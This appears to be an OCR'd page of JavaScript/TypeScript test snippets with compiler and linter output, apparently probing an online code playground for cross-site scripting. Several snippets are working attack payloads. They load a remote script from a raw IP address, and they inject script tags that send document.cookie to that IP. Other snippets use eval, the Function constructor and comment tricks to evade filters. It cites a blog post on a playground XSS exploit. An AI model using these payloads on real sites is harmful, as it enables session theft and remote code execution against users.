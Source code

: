 (function/**/x(){var/**/a='a'})()
Returning a void expression from an arrow function shorthand is forbidden. Please add braces to the arrow function. 'a' is assigned a value but never used. 'a' is assigned a value but never used.

new/**/Function(console.log(1):string)()
Unsafe return of an `any` typed value. Implied eval. Do not use the Function constructor to create functions. Placing a void expression inside another expression is forbidden. Move it to its own statement instead. Unsafe argument of type `any` assigned to a parameter of type `string`.

import { sanitize } from './sanitize'
(()=>{import('sanitize')/**/return/**/sanitize('1')})()


(function/**/f(){import('http://13.209.6.18/a.js')/**/return/**/1})()
Cannot find global value 'Promise'. Dynamic imports are only supported when the '--module' flag is set to 'es2020', 'es2022', 'esnext', 'commonjs', 'amd', 'system', 'umd', 'node16', or 'nodenext'. A dynamic import call in ES5/ES3 requires the 'Promise' constructor. Make sure you have a declaration for the 'Promise' constructor or include 'ES2015' in your '--lib' option. Cannot find module 'http://13.209.6.18/a.js'. Did you mean to set the 'moduleResolution' option to 'nodenext', or to add aliases to the 'paths' option?

(()=>{/**/return/**/2})()
2

(()=>{console.log('a')/**/return/**/2})()
2

(()=>{console.log('<img src="#">')/**/return/**/1})()

<!-- https://www.ferrybig.me/blog/how-i-found-a-typescript-public-playground-xss-exploit -->
(()=>{console.log('<script>location.href=`http://13.209.6.18/?c=b`</script>')/**/return/**/1})()

(()=>{eval('')/**/return/**/1})()

(()=>{return/**/'<script>location.href=`http://13.209.6.18/?c=`+document.cookie</script>'})()

(()=><string>{return/**/'<script>location.href=`http://13.209.6.18/?c=`+document.cookie</script>'})()


